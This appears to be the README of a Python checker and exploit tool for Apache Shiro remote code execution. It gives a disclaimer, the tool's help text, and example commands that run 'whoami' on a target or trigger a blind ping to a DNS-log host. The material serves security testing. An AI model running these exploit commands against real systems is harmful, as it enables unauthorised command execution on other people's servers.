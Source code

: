 # ShiroRceTool
Simple checker and exploit for Shiro RCE. (一个简单的Shiro RCE检测和利用脚本。)

![](img/img1.png)

## 声明 WARNING
* 仅供安全人员验证,测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)  and local laws.

## 使用方法 Usage

```bash
# USE PYTHON3
$python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```

## 示例 Example

```bash
# Check
python ShiroRceTool.py -m check -u "http://example.com"
# Exec cmd with echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
# Exec cmd with no echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```
![](img/img2.png)
